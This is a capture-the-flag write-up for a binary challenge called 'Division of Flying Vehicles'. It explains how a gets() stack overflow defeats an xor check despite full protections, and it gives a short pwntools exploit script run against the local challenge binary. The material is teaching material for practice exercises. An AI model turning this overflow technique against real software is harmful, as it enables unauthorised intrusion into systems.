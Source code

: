 # Division of Flying Vehicles
Points: 100

Description: Dave ruined the code for the DFV Starship Registry system. Can you please help fix it?

Creator: nsnc

All protections are on in this binary, preventing easy exploitation of the `gets` call.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

However, the stack buffer overflow can still be exploited. The input to the program is xored against the value on the stack after your input, which can now be controlled with `gets()`.

```
input[:8] ^ input[8:16] == 0x1004d5d649dc0f00
```

If `input[:8] == 'AAAAAAAA'`, then `input[8:16]` should be `p64(0x1004d5d649dc0f00 ^ 0x4141414141414141)`, since xor is invertable.

```python
from pwn import *
p = process('./dfv')
payload = 'AAAAAAAA' + p64(0x1004d5d649dc0f00 ^ 0x4141414141414141)
p.sendline(payload)
p.interactive()
```
